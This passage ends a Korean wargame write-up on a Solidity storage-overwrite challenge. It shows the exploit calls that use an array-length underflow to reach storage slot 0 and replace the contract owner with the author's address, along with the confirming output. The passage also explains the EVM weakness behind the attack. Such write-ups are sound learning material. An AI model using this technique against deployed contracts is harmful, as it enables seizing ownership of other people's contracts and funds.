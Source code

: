 ![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/67349b11-6f90-421d-94e5-2201fcf0672a/Untitled.png)

즉 codex[0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a]가 slot 0임을 알 수 있다. 이 위치에 미리 준비해 두었던 내 주소값을 넣어주자. 그러면 owner 변수를 내 주소로 덮어 씌우게 된다.

```solidity

target = '0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a'

result = '0x00000000000000000000000083b26d6A3D3FaBd9F0A5f1d69DCA1CE6cc4eA39a'

await contract.revise(target,result)
-> codex[target] = result 

await web3.eth.getStorageAt('0x2af0948EF66793FF69864f01C444a82ADc89f3d5',0)
'0x00000000000000000000000083b26d6a3d3fabd9f0a5f1d69dca1ce6cc4ea39a'
```

정상적으로 owner 권한을 덮어 씌운 것을 확인할 수 있다. 이제 인스턴스를 제출하면 성공했음을 확인할 수 있다.

![문제 성공.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/516020c4-acf6-47e6-815c-682b289404c6/%EB%AC%B8%EC%A0%9C_%EC%84%B1%EA%B3%B5.png)

# 마무리

이 단계에서는 EVM이 ABI-인코딩된 길이와 페이로드를 검증하지 않음을 알 수 있었다. 추가적으로 배열 길이의 언더플로우로 인해 배열로 접근할수 있는 스토리지가 전체로 확장 되어 모든 컨트랙트 스토리지를 조작할 수 있는 것을 알 수 있었다.

이 취약점은 2017년에 있었던 [Underhanded coding contest](https://medium.com/@weka/announcing-the-winners-of-the-first-underhanded-solidity-coding-contest-282563a87079) 에서 출제 되었다.

